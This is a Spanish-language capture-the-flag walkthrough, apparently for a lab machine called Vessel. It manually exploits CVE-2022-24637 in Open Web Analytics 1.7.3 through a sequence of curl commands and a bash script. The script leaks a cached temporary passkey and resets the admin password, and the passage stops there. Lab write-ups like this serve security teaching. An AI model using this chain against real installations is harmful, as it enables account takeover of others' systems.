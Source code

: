 Es un portal Open Web Analytics para estadísticas de sitios web, si husmeamos por el código veremos que usa la versión 1.7.3 y esta es vulnerable al [CVE-2022-24637](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24637)... existe un script en ExploitDB para explotar esta vulnerabilidad y conseguir un RCE pero aquí vamos a explotarlo manualmente.

Primero que nada, esta vulnerabilidad ocurre porque el interprete de PHP no trata bien las secuencias que inician con '<?php, y en un mal intento de ocultar el caché de los usuarios usando esta secuencia queda expuesto publicamente... con esto último puedes cambiarles la contraseña ya que al hacer aunque sea un intento de inicio de sesión fallido el caché se genera con una contraseña temporal dentro.

Vamos a autenticarnos como el usuario admin para generarle un cache:

{% highlight bash %}
❯ curl -v -d "owa_user_id=admin&owa_password=admin&owa_action=base.login" 'http://openwebanalytics.vessel.htb/index.php?owa_do=base.loginForm'
{% endhighlight %}

El caché generado puedes encontrarlo en la ruta `/owa-data/caches/1/owa_user/c30da9265ba0a4704db9229f864c9eb7.php`. El hash que ves en la ruta es de tipo md5 hex y es el resultado de la combinación `user_id1`; La ID del usuario administrador es 1.

Haciendo una petición a esa ruta encontraremos el caché:

{% highlight bash %}
❯ curl 'http://openwebanalytics.vessel.htb/owa-data/caches/1/owa_user/c30da9265ba0a4704db9229f864c9eb7.php'
<?php\n/*Tzo4OiJvd2FfdXNlciI6NTp7czo0OiJuYW1lIjtzOjk6ImJhc2UudXNlciI7czoxMDoicHJvcGVydGllcyI7YToxMDp7czoyOiJpZCI7TzoxMjoib3dhX2RiQ29sdW1uIjoxMTp7czo0OiJuYW1lIjtOO3M6NToidmFsdWUiO3M6MToiMSI...
{% endhighlight %}

Decodificando el base64 vemos que es un objeto PHP "owa_user" serializado y si vemos bien encontraremos la contraseña temporal:

{% highlight php %}
...ss:12:"temp_passkey";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:32:"0acfc1e6455e1a57d57385f7e1fae3b8"...
{% endhighlight %}

*NOTA: También está el hash de la contraseña actual pero no nos interesa por ahora*

Luego haremos una petición a la URL `http://openwebanalytics.vessel.htb/index.php?owa_do=base.usersPasswordEntry` por POST para reiniciar la contraseña de admin, yo usaré este script feo para hacerlo:

{% highlight bash %}
#!/bin/bash
#El archivo "cache" es el cache obtenido codificado en base64.

temppass=$(base64 -d cache | grep -oP "N;s:5:\"value\";s:32:\"\K.{32}")

echo "Temporal password is $temppass"
echo "See the request"

curl -v -d "owa_password=admin&owa_password2=admin&owa_k=$temppass&owa_action=base.usersChangePassword" 'http://openwebanalytics.vessel.htb/index.php?owa_do=base.usersPasswordEntry'
{% endhighlight %}
